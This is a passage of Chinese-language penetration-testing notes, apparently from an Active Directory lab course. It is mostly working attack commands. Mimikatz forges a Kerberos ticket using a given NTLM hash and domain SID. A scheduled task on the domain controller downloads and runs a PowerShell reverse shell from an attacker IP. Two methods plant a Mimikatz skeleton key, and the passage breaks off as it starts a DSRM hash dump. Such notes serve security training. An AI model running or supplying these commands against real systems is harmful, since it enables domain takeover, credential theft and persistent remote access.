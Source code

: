 NTLM : 126289c16302fb23b71ec09f0d3d5391
```
可以用来制作银票

执行命令
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

执行完上面命令，在当前shell会有一个Administrator的session

新建一个定时任务，反弹dc上的一个shell回来。需要注意Invoke-PowerShellTcp.ps1里最后一行要加上
```
Power -Reverse -IPAddress 172.16.100.66 -Port 443
```
表示调用自己

## 制作定时任务：
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

## 触发定时任务
```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User366"
```

# 制作万能钥匙
在一台有DA权限的shell里运行下面命令

### 方法1
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.loc
al
```
### 方法2(推荐)
回到学生机器,创建一个DC的登录session
```
$sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

把mimikatz加载到指定session
```
 Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

再次进入DC
```
 Enter-PSSession -Session $sess
```

执行mimikatz，制作万能钥匙
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

开一个学生shell使用下面命令以student370的身份进入主机
```Enter-PSSession –Computername dcorp-std370 –credential dcorp\student370```

# DSRM利用
目录服务还原模式。除了krbtgt服务帐号外，域控上还有个可利用的账户：目录服务还原模式（DSRM）账户，这个密码是在DC安装的时候设置的，所以一般不会被修改

用有DA权限的shell，运行下面命令，dump出DSRM的哈希密码
```
